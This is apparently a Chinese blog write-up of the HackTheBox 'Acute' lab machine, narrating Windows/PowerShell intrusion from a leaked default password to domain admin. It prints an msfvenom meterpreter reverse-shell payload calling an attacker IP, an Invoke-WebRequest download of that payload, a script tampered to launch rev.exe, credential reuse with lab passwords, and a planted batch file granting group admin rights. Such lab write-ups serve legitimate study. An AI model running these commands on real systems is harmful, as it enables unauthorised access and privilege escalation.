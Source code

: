 ```yaml
---
title: Acute
date: 2022-04-30 12:23:23
tags: HackThebox
categories: powershell渗透
---
```


# 前言

这是一台纯Windows渗透的靶机，通过powershell的各种命令实现从一个低权限用户提权到一个高权限用户的过程。除此之外，这是一台很好的内网靶机，通过这台靶机可以学习到很多内网渗透的姿势。

# 解题思路

![image](https://image.3001.net/images/20220428/1651109629_6269eefd781e30e454f31.png!small)

<!--more-->

# 信息收集

对目标靶机进行扫描时发现只开放了443端口，很奇怪。但是我们发现了一个域名地址，我们可以尝试添加到hosts文件中进行访问
![image.png](https://image.3001.net/images/20220406/1649253995_624d9e6be6a236a5b6175.png!small)

是一个非常正常的web页面

![image.png](https://image.3001.net/images/20220406/1649254267_624d9f7b16b07a31b586c.png!small)

<!--more-->

浏览`about us`页面时，发现很多人名，编辑将其保存为users.txt文件

![image.png](https://image.3001.net/images/20220427/1651043030_6268ead648797df24d418.png!small)

![image.png](https://image.3001.net/images/20220427/1651043068_6268eafc7f31027d3eb1d.png!small)

在关于页面上下载一个doc文档查看是否存在有价值的信息

![image.png](https://image.3001.net/images/20220428/1651108430_6269ea4e9a2e8745019b8.png!small)

在查找信息时，发现存在一个默认密码和一个`remote`远程地址

![image.png](https://image.3001.net/images/20220428/1651108620_6269eb0c075c4278d14d5.png!small)

![image.png](https://image.3001.net/images/20220428/1651108655_6269eb2fd21858752aa97.png!small)

新的链接地址是一个登录表单

![image.png](https://image.3001.net/images/20220428/1651109584_6269eed0f381636d13cf7.png!small)

可以通过前期整理的用户名和密码进行尝试，但是这里发现需要填写计算机名，可以使用`exiftool`工具找到计算机名

![image.png](https://image.3001.net/images/20220428/1651110060_6269f0ac0d93b09e8dd4a.png!small)

最后使用`Edavies`这个账户登录成功，登录成功后发现是一个powershell界面

![image.png](https://image.3001.net/images/20220428/1651110209_6269f141141eb5567107c.png!small)

# 漏洞利用

查看到计算机上除了`Edavies`这个用户外，还存在其他用户。这些用户可能都存在不用的权限，因此下一步要做的就是横向到这各个用户上去。

![image.png](https://image.3001.net/images/20220428/1651110376_6269f1e8e23082b4c12a5.png!small)

因此漏洞利用的思路就出来了，可以生成一个远控shell，投毒到当前靶机上接收它的shell终端

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f exe > shell.exe
```

![image.png](https://image.3001.net/images/20220428/1651110670_6269f30e390b7ebadad1b.png!small)

要下载这个payload，就要用到powershell的远程下载命令了，同时MSF那边开启监听

```
Invoke-WebRequest "http://10.10.14.5/shell.exe" -OutFile "shell.exe"
```

![image.png](https://image.3001.net/images/20220428/1651111042_6269f482804aea8d1c591.png!small)

接收到edavies的shell终端

![image.png](https://image.3001.net/images/20220428/1651111085_6269f4ad9bc7a78035fc5.png!small)

# 提权

## edavies提权imonks

使用`screenshare`命令查看靶机正在进行什么活动，命令执行它将其保存为html文件

![image.png](https://image.3001.net/images/20220428/1651111764_6269f754230f34903d065.png!small)

发现目标主机正在执行如下的命令操作，从这些信息中可以获取到密码，用户的认证凭证等信息

![image](https://image.3001.net/images/20220428/1651111944_6269f8086fe72982ebeb7.jpg!small)

![image](https://image.3001.net/images/20220428/1651111953_6269f811ce9e895b9415d.jpg!small)

得到这些信息后，只需要配合`Invoke-Command`命令并执行相同的操作，那么就可以获取到`imonks`用户的权限了

```
$passwd = ConvertTo-SecureString "w3_4R3_th3_f0rce" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("acute\imonks",$passwd)
Invoke-Command -computerName atsserver -ConfigurationName dc_manage -ScriptBlock {whoami} -credential $cred
```

![image.png](https://image.3001.net/images/20220428/1651129788_626a3dbc6bdb42de16a5f.png!small)

有了用户密码和凭据，就可以对imonks用户的目录进行查看了

```
Invoke-Command -computerName atsserver -ConfigurationName dc_manage -ScriptBlock {ls /users} -credential $cred
```

![image.png](https://image.3001.net/images/20220428/1651129976_626a3e78a43db2d1cd9b4.png!small)

## imonks提权jmorgan

在imonks的桌面目录上，除了看见user.txt文件外，还存在一个powershell脚本，脚本内容如下

```
$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds
```

从上面的脚本内容上看，脚本首先是对密码进行加密处理，然后通过验证cred变量从而去执行`Get-Volume`这个命令。想要获取到jmorgan用户的权限，就得替换掉命令里的内容，并执行属于我们自己的载荷文件。

```
Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{((Get-Content "c:\users\imonks\Desktop\wm.ps1" -Raw) -replace 'Get-Volume','cmd.exe /c c:\utils\rev.exe') | set-content -path c:\users\imonks\Desktop\wm.ps1} -credential $cred
invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {C:\Users\imonks\Desktop\wm.ps1} -credential $cred
```

![image.png](https://image.3001.net/images/20220428/1651131660_626a450cdf3a3203c026f.png!small)

## jmorgan提权Administrator

得到jmorgan用户的权限后，可以查看该用户是否在管理员组中

![image.png](https://image.3001.net/images/20220428/1651131781_626a4585c3c7cc2a8cf8e.png!small)

很幸运，jmorgan用户是处于管理员组中，那么就可以对Administraor用户进行hash dump，解密出密码是`Password@123`

![image.png](https://image.3001.net/images/20220428/1651131897_626a45f952afa188edc50.png!small)

![image.png](https://image.3001.net/images/20220428/1651131965_626a463d4831daccfa258.png!small)

但是很可惜的是，当尝试使用这个密码去登录管理员的时候，是失败的。那么这里就要用到密码重用技术，类似于尝试使用同一个密码去登录不同的用户

![image.png](https://image.3001.net/images/20220428/1651133566_626a4c7e1c5ec64f6d719.png!small)

```
$passwd = ConvertTo-SecureString "Password@123" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ("acute\awallace", $passwd)
invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {whoami} -credential $cred
```

![image.png](https://image.3001.net/images/20220428/1651135436_626a53cc4c14c48320956.png!small)

显示登录成功，接着可以查看这个用户对应的目录文件，可以看到里面存在一个keepmeon目录

![image.png](https://image.3001.net/images/20220428/1651135674_626a54baa5cf4ed2916b3.png!small)

里面存在一个bat脚本，这个脚本的作用是每5分钟运行一次

```
REM This is run every 5 minutes. For Lois use ONLY
@echo off
 for /R %%x in (*.bat) do (
 if not "%%x" == "%~0" call "%%x"
)
```

![image.png](https://image.3001.net/images/20220428/1651135769_626a551918f180602f677.png!small)

那么思路就是，只要把这个脚本加到计划任务上。等待5分钟后执行这个脚本，并awallace用户添加到site\_admin管理员组上

```
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {Set-Content -Path 'c:\program files\Keepmeon\admin.bat' -Value 'net group site_admin awallace /add /domain'}
invoke-Command -computername atsserver -ConfigurationName dc_manage  -ScriptBlock {net group site_admin} -credential $cred
```

![image.png](https://image.3001.net/images/20220428/1651139764_626a64b46eb27351c215f.png!small)

最后可以查看到Administrator账户里的目录文件信息了

![image.png](https://image.3001.net/images/20220428/1651139865_626a651990f0cdefb94bd.png!small)
